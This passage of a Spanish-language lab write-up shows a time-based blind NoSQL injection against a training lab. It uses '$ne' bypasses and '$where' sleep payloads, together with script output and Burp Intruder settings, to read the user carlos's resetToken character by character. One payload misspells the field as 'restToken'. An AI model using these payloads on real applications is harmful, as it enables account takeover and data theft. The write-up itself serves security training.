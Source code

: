 `Obtenemos` el `nombre` del `quinto campo` del `documento JavaScript`

```
# python nosqli.py
[....\...] Fuerza bruta: function(){ if(Object.keys(this)[4].match('^.{9}n.*')) sleep(5000); }
[-] Output: resetToken
```

`Obtenemos` que `16` es la `longitud` del `valor` que tiene el campo `resetToken` gracias a este `payload`

```
{
  "username": "carlos",
  "password": {
    "$ne": "testing"
  },
  "$where": "function(){ if(this.resetToken.length == 16) sleep(5000); }"
}
```

`Cambiamos` el `payload` anterior por este otro, `mandamos` la `petición` al `Intruder`, seleccionamos como tipo de ataque `Cluster bomb` y `seleccionamos` las `posiciones` en las que van los `payloads`

```
{
  "username": "carlos",
  "password": {
    "$ne": "testing"
  },
  "$where": "function(){ if(this.restToken.match('^.{0}a.*')) sleep(5000); }"
}
```

![](/assets/img/NoSQLI-Lab-4/image_45.png)

El primer `payload` va a ser de tipo `numérico` y va a ir desde el `0` al `15`, haciendo un total de `16` de `longitud`
